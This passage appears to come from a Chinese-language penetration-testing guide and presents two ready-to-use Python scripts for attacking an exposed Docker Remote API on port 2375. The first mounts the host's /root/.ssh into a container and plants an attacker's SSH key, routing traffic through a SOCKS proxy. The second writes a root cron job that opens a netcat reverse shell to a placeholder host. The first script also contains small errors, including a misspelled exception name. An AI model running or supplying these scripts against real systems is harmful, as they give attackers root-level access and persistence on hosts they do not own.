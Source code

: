 还可以使用师傅们写好的 python 脚本  
写 ssh 密钥

```
# coding:utf-8
import docker
import socks
import socket
import sys
import re
 
#开启代理
socks.setdefaultproxy(socks.PROXY_TYPE_SOCKS5, '127.0.0.1', 1081)
#socks.set_default_proxy(socks.SOCKS5, '127.0.0.1', 1081)
socket.socket = socks.socksocket
 
ip = '172.16.145.165'
cli = docker.DockerClient(base_url='tcp://'+ip+':2375', version='auto') 
#端口不一定为2375，指定version参数是因为本机和远程主机的API版本可能不同，指定为auto可以自己判断版本
image = cli.images.list()[0]
 
#读取生成的公钥
f = open('id_rsa_2048.pub', 'r')
sshKey = f.read()
f.close()
 
try:
    cli.containers.run(
        image=image.tags[0], 
        command='sh -c "echo '+sshKey+' >> /usr/games/authorized_keys"', #这里卡了很久，这是正确有效的写法，在有重定向时直接写命令是无法正确执行的，记得加上sh -c
        volumes={'/root/.ssh':{'bind': '/usr/games', 'mode': 'rw'}}, #找一个基本所有环境都有的目录
        name='test' #给容器命名，便于后面删除
    )
except docker.errors.ContainerError as e:
    print(e)
 
#删除容器
try:
    container = cli.containers.get('test')
    container.remove()
except Expection as e:
    continue
```

写计划任务 (by P 牛)

```
import docker
 
client = docker.DockerClient(base_url='http://your-ip:2375/')
data = client.containers.run('alpine:latest', r'''sh -c "echo '* * * * * /usr/bin/nc your-ip 21 -e /bin/sh' >> /tmp/etc/crontabs/root" ''', remove=True, volumes={'/etc': {'bind': '/tmp/etc', 'mode': 'rw'}})
```
